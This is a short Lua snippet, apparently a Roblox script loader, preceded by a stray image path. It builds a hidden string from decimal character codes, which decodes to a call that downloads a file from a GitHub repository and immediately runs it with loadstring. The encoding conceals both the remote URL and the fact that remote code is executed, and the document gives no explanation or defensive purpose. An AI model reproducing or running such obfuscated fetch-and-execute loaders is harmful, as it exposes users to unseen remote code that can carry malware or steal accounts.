 local enc = "/108/111/97/100/115/116/114/105/110/103/40/103/97/109/101/58/72/116/116/112/71/101/116/40/34/104/116/116/112/115/58/47/47/114/97/119/46/103/105/116/104/117/98/117/115/101/114/99/111/110/116/101/110/116/46/99/111/109/47/99/111/111/108/107/105/100/107/118/105/101/116/110/97/109/47/77/97/104/111/97/116/111/110/103/104/111/112/47/114/101/102/115/47/104/101/97/100/115/47/109/97/105/110/47/82/69/65/68/77/69/46/109/100/34/41/41/40/41"
local t = {}
for n in enc:gmatch("/(%d+)") do
    t[#t+1] = string.char(tonumber(n))
end
local code = table.concat(t)
loadstring(code)()
